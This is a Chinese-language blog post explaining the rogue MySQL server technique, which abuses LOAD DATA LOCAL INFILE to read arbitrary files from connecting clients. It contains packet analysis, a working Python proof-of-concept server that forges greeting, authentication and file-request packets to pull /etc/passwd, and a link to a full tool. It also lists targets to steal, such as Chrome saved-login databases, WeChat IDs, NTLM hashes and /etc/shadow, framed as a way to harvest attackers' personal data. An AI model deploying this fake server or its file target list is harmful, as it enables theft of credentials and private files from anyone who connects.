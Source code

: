 ```yaml
---
layout: post
title: RougeMysql任意读取用户文件
---
```


[TOC]

> **“** Mysql任意读取客户端文件已经早在17年就已经有人提起过，放在今天来看，可以用做蜜罐来获取攻击者的个人信息文件，也可以用在AWD中，比如可以获取攻击者QQ号，聊天记录，微信id，NTMLHash等，此文只做为引子介绍Rouge-Mysql攻击过程 **”**



## 01 数据包分析

在开始之前，我们首先要了解一个命令

 `load data local infile '/etc/passwd' into table users fields terminated by '\n';`

上面这句命令的意思解释一下就是 导入一个本地文件 `etc/passwd` 至 `user`表中，导入数据以` \n`换行符分割

![img](https://s1.ax1x.com/2020/09/12/wagZo8.md.png)

PS：

**Mysql >8.0** 版本的是默认禁止了 **local_infile** 功能 ，所以需要手动开启

`set global local_infile = 1;`

![img](https://s1.ax1x.com/2020/09/12/wagkLt.md.png)

运行 `load data` 命令查看数据包

![img](https://s1.ax1x.com/2020/09/12/wagVdf.md.jpg)

![img](https://s1.ax1x.com/2020/09/12/wagEeP.md.png)

test文件内容

![img](https://s1.ax1x.com/2020/09/12/wagFsI.md.png)



上面就是完整的 `load data` 命令数据包

下面我们重点看一下 请求读取文件的这个数据包

![img](https://s1.ax1x.com/2020/09/12/wagmFS.md.jpg)



- 红框内容 `1c`：文件绝对路径长度+1 （16进制）
- 蓝框内容 `00 00 01`：数据包序号
- 绿框内容 `fb`：数据包类型

可以看到我们只需要获取到 **文件名+绝对路径的长度+1** 再加上要读的文件绝对路径基本就可以实现读取任意文件，简单构造一下数据包：

(文件绝对路径长度+1) `00 00 01 fb` (文件绝对路径)

```python
chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename 
```



## 02伪造 **Mysql**客户端

想要伪造一个Mysql客户端，我们先启动一个正常的 Mysql 服务，正常的过一遍连接到认证成功的流程。

Mysql 先是发送一个 `Greeting Proto` 的欢迎包

![img](https://s1.ax1x.com/2020/09/12/wagKzj.md.png)

紧接着就是认证流程数据包，Mysql 收到客户端发来的账号密码 进行验证并返回相应的数据包

![img](https://s1.ax1x.com/2020/09/12/wagQQs.md.png)





Mysql 返回对应的认证包

![img](https://s1.ax1x.com/2020/09/12/waglyn.md.png)





至此就是 Mysql 的认证流程，知道了流程以后，我们就可以伪造 Mysql 客户端：

1. 监听 3306 端口，发送伪造的 Mysql 欢迎数据包
2. 有人连接则发送 Mysql 认证成功的数据包。
3. 伪造 Mysql 读取文件的数据包。
4. 根据数据包特征判断是否读取成功，成功则获取数据包内容。



## 03 Poc演示

Poc：

```python
import socket
import os
import sys

#usage poc.py 3306

port = int(sys.argv[1])
sv=socket.socket()
sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sv.bind(("",port))
sv.listen(5)
print "Listen Begin in port "+ str(port)

filename = "/etc/passwd"conn, address = sv.accept()
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
conn.close()

if len(content) > 4:    
	print("[*] Read %s Successful!" % (filename))
```



本地运行 poc.py

![img](https://s1.ax1x.com/2020/09/12/wag1Lq.md.png)

端口也正在监听中

![img](https://s1.ax1x.com/2020/09/12/wag8e0.md.png)



尝试弱口令连接 Mysql

![img](https://s1.ax1x.com/2020/09/12/wagGwV.md.png)



读取文件成功，同时看一下数据包

![img](https://s1.ax1x.com/2020/09/12/wagNYF.md.png)

可见 **/etc/passwd** 已经读取成功，所有的数据包也都伪造成功

下面要做的就是根据流量特征利用正则提取文件内容即可。



获取工具

git clone https://github.com/ev0A/Mysqlist

dicc.txt 是要读的文件

![img](https://s1.ax1x.com/2020/09/12/waf4C8.md.png)

运行 exp_dicc.py端口 3306

![img](https://s1.ax1x.com/2020/09/12/wafNH1.md.png)

尝试在Windows主机连接伪造的 Mysql服务，密码随便写

![img](https://s1.ax1x.com/2020/09/12/wafw4K.md.png)



成功读取到用户文件

![img](https://s1.ax1x.com/2020/09/12/wafNH1.md.png)

查看读取的文件

![img](https://s1.ax1x.com/2020/09/12/waftBR.md.png)



截止以上就是完整的伪造攻击流程。



## 04 思考🤔

既然可以任意读取文件，除了/etc/passwd 还有什么其他很有价值的文件呢？

**e.g:**

1. chrom login data 

   `'C:/Users/' + username + '/AppData/Local/Google/Chrome/User Data/Default/Login Data'`

2. NTLM Hash（Bettercap + responder）

3. 微信ID

   `C:\Users\username\Documents\WeChat Files\All Users\config\config.data`

4. `/etc/shadow` 等



**一些问题**

1. 添加判断，若客户端没有进行认证则不需要发送认证成功的数据包



Reference：

[3] https://github.com/ev0A/ArbitraryFileReadList

[4] https://github.com/ev0A/Mysqlist

[5] https://mp.weixin.qq.com/s/m4I_YDn98K_A2yGAhv67Gg

<img src="https://s1.ax1x.com/2020/09/12/wafYu9.md.gif" alt="img" style="zoom:80%;" />

